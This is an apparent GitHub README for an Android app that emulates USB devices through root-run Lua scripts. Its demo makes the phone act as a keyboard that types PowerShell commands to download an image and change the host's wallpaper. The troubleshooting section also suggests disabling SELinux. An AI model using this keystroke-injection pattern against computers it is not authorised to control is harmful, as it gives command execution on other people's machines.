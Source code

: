 # Android USB Script

**Use at your own risk. For educational purposes only.**

An Android app that provides a simple Lua interface for enumerating and interfacing
with arbitrary composite USB devices.

**Root access is required.**

**Lua scripts are run as root**. Do not run untrusted scripts!

## Demonstration

The best way to explain what this app does is with a code example. The following script
does the following when interpreted by this app:

1. Configures your phone to become a USB keyboard
2. Sends a series of key presses to the computer your phone is plugged in to, changing
its wallpaper

```lua
-- create a USB composite device composed of a single keyboard
usb = luausb.create({ id = 0, type = "keyboard" })
kb = usb.dev[1]

local file = prompt("Wallpaper to download?", "https://i.imgur.com/46wWHZ3.png")

while true do
    print("idle")

    -- wait for the phone to be plugged into a computer
    while usb.state() == "not attached" do
        wait(1000)
    end

    print("running")
    wait(1000)

    kb.chord(MOD_LSUPER, KEY_R)     -- open Windows run dialog
    wait(2000)                      -- wait for it to open
    kb.string("powershell\n")       -- open powershell
    wait(2000)
    -- execute a script that downloads and changes the wallpaper
    kb.string("[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;" ..
            "(new-object System.Net.WebClient).DownloadFile('" .. file .. "',\"$Env:Temp\\b.jpg\");\n" ..
            "Add-Type @\"\n" ..
            "using System;using System.Runtime.InteropServices;using Microsoft.Win32;namespa" ..
            "ce W{public class S{ [DllImport(\"user32.dll\")]static extern int SystemParamet" ..
            "ersInfo(int a,int b,string c,int d);public static void SW(string a){SystemParam" ..
            "etersInfo(20,0,a,3);RegistryKey c=Registry.CurrentUser.OpenSubKey(\"Control Pan" ..
            "el\\\\Desktop\",true);c.SetValue(@\"WallpaperStyle\", \"2\");c.SetValue(@\"Tile" ..
            "Wallpaper\", \"0\");c.Close();}}}\n" ..
            "\"@\n" ..
            "[W.S]::SW(\"$Env:Temp\\b.jpg\")\n" ..
            "exit\n")

    print("done")
    -- wait until the phone is unplugged
    while usb.state() == "configured" do
        wait(1000)
    end
end
```

Several other sample scripts are
[included in the repository](https://github.com/Netdex/android-usb-script/tree/master/app/src/main/assets/scripts).

## Requirements
**This app will not work on every Android device.** If your Android OS has Linux Kernel
version >= 3.18 and is compiled with configfs and f_hid, then the app can try to create usb
gadgets.

New demo applications can be added to `assets/scripts`. The API is pretty much self-documenting,
just look at the existing demos to get a feel for how the API works.

## Troubleshooting
### "Device Malfunctioned" on Windows 10
There may be an incompatibility between the supported USB speed between the USB function and USB
port. For example, if you try to use the HID function on a port that only supports USB SuperSpeed,
you will get this error. This is common when using certain USB 3.0 hubs. If you plugged into a USB
hub, try using a port connected to the USB Root Hub. If you plugged into a USB 3.0 port, try using a
USB 2.0 port.

### "java.io.IOException: Could not write to /dev/hidgX"
Try setting SELinux to permissive mode by running `setenforce 0` as root.


## Third-party
- [libsuperuser](https://github.com/Chainfire/libsuperuser)
- [LuaJ](http://www.luaj.org/luaj/3.0/README.html)
